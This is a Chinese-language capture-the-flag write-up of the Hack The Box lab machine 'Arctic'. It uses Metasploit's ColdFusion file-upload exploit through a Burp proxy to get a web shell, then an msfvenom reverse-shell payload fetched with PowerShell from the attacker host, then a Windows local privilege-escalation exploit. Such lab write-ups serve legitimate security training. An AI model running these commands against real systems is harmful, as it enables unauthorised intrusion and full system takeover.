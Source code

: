 ```yaml
---
title: Arctic（ColdFusion任意文件上传）
categories:
- training
tags:
- training
- file upload
---
```

## scan
```
Discovered open port 8500/tcp on 10.10.10.11                                   
Discovered open port 135/tcp on 10.10.10.11                                    
Discovered open port 49154/tcp on 10.10.10.11

135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
os : Microsoft Windows Vista           
```
## 尝试1: rpc漏洞检查
google搜索。。。
```
search ms03-026
use exploit/windows/dcerpc/ms03_026_dcom
show options
```
## 检查8500端口
```
telnet 10.10.10.11 8500

Trying 10.10.10.11...

Connected to 10.10.10.11.

Escape character is '^]'.

Connection closed by foreign host.
```
fmtp: **flight-message-transfer-protocol**，网上查了一下，没有见过这个协议，也不知道具体是干什么的。

## 思路
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/2.PNG)
没有任何操作思路。

根据wp学习一下。
ColdFusion应用程序由一组后缀名为CFM的文本文件构成，这些文件实现了该应用程序的功能...

```
searchsploit coldfusion
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit) 

msfconsole
search ColdFusion
use exploit/windows/http/coldfusion_fckeditor
```
burp设置代理，将访问127.0.0.1:8500的地址，发往10.10.10.11:8500。
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/3.PNG)
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/4.PNG)                                                                                                                                                                                                                                                                                             
将msf的payload，用burp repeater截包。

```
set RHOST 127.0.0.1
set RPORT 8500
run
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/5.PNG)
观察右下角，响应用了17秒

## 获得一个shell
浏览器访问地址：`http://localhost:8500/userfiles/file/ECZLO.jsp`
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/6.PNG) 获得了一个shell。

info enum:
```
》whoami
arctic\tolis
》systeminfo
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          31/1/2019, 7:52:38 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2400 Mhz
                           [02]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2400 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 241 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.209 MB
Virtual Memory: In Use:    839 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11

```
## 提权

本地执行：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST="10.10.14.7" LPORT=7767 -f exe -o m.exe
msf执行监听，本地ip，端口7767
```
shell执行：
```
cd C:\Users\tolis\Desktop
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.7/m.exe', 'm.exe')"
start p.exe 成功反弹metepreter

[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.

use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set LHOST xxxx
run
```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/7.PNG)

## 总结
学习了burp设置代理，达到访问127.0.0.1等于访问远程的效果。

msf设置RHOST为127.0.0.1，burp可以拦截msf发送的数据包
